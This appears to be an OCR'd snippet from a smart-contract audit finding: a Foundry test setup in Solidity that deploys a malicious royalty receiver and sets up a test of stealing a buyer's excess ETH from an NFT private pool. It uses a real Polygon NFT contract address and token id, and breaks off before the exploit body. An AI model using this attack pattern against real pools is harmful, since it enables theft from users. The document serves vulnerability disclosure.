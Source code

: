 ```solidity
    /// @notice Merkle root is set to bytes32(0) to make setup simpler.
    bytes32 constant MERKLE_ROOT = bytes32(0);

    /// @notice The private pool has initial balance/reserve of 100 ETH (the base token is address(0)).
    uint128 constant VIRTUAL_BASE_TOKEN_RESERVES = 100e18;

    /// @notice The private pool has 5 NFTs, each one with a wight of 1e18 (the merkle root is bytes32(0)).
    uint128 constant VIRTUAL_NFT_RESERVES = 5e18;

    /// @notice The excess amount of ETH that the buyer/victim will send because they believe that it will be returned to them.
    uint256 constant EXCESS = 10e18;

    /// @notice The attacker contract.
    MaliciousRoyaltyReceiver public maliciousRoyaltyReceiver;

    /// @notice Common state variables.
    uint256 public tokenId;
    address public attacker;
    address public victim;

    function setUp() public {
        // Get a reference to an ERC2981 collection on polygon mainnet.
        nft = ERC721Royalty(0x1024Accd05Fa01AdbB74502DBDdd8e430d610c53);

        // Pick an NFT token id that will be used to perform the attack.
        tokenId = 61039189399824080078548987048376199044334241070534370230028874880716994294049;

        _deployPrivatePool();

        // Deposit the NFT to the pool.
        _depositNft(tokenId);

        // Get need addresses.
        attacker = IPixels(address(nft)).creatorOf(tokenId);
        victim = vm.addr(0x1234);

        // Deploy the attacker contract.
        vm.startPrank(attacker);
        maliciousRoyaltyReceiver = new MaliciousRoyaltyReceiver(
            address(nft),
            address(ethRouter)
        );

        // Set the attacker contract as the royalty receiver for NFT#tokenId.
        // Note that creators can set the royalty receiver, but can also simply mint NFTs
        // from contracts that could have malicious fallback() and wouldn't need to use
        // setCreatorRedirect since the contract that minted the nft will alredy be royalty
        // recipient.
        IPixels(address(nft)).setCreatorRedirect(
            address(maliciousRoyaltyReceiver)
        );
        vm.stopPrank();

        // Deal ETH.
        _fundEth();
    }

    function test_RoyaltyReceiverStealExcessEth() public {
        _logState(" Before exploit");

```